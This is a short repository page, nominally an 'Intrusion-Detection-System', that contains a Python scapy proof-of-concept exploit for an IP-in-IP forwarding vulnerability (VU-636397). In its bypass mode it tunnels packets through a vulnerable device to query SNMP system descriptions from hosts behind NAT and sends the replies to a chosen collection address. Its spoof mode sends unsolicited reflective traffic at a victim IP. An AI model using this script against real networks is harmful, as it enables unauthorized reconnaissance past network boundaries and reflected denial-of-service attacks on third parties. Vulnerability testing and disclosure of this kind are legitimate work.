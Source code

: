 # Intrusion-Detection-System
#detect device vulnerability by ip filtering
#!/usr/bin/env python3
#PoC Script
#PoC script slightly modified to test bypass mode
import sys
from scapy.all import *
if len(sys.argv) < 3:
  print("Usage "+sys.argv[0]+" VULNERABLE_MACHINE_IP VICTIM_IP [DATA_COLLECT_IP] [spoof|bypass]")
  print("\t - Optional arguments DATA_COLLECT_IP and bypass can be used to test bypass NAT")
  sys.exit(0);
  ## IP-in-IP forwarding device vulnerable to VU-636397
VULNERABLE_MACHINE_IP = sys.argv[1]
## VICTIM IP of the machine we want to send packet to
VICTIM_IP = sys.argv[2]

if len(sys.argv) == 5 and sys.argv[4] == "bypass":
  ## Address we want to send the return traffic back to 
  DATA_COLLECT_IP = sys.argv[3]
  ## LAN bypass mode to jump into VICTIM_IP network
  ## send IP over IP (proto 4) to pull sys.descr from VICTIM_IP and send to DATA_COLLECT_IP
  send(IP(dst=VULNERABLE_MACHINE_IP)/IP(src=DATA_COLLECT_IP,dst=VICTIM_IP)/UDP(sport=3364)/
       SNMP(community="public",PDU=SNMPget(varbindlist=[SNMPvarbind(oid=ASN1_OID("1.3.6.1.2.1.1.1.0"))])))
else:
  ## spoof mode to spoof vulnerable device to send unsolicited traffic to VICTIM_IP 
  ## send unsolicited reflective DOS traffic to VICTIM_IP on port 3364 saying "I am Vulnerable"
  send(IP(dst=VULNERABLE_MACHINE_IP)/IP(src=VULNERABLE_MACHINE_IP, dst=VICTIM_IP)/UDP(sport=3364, dport=3364)/
       Raw(load="I am Vulnerable\n"))
  ## To see the packets in the DATA_COLLECTOR or VICTIM_IP execute:
  ## tcpdump -i any -nvvv udp port 3364
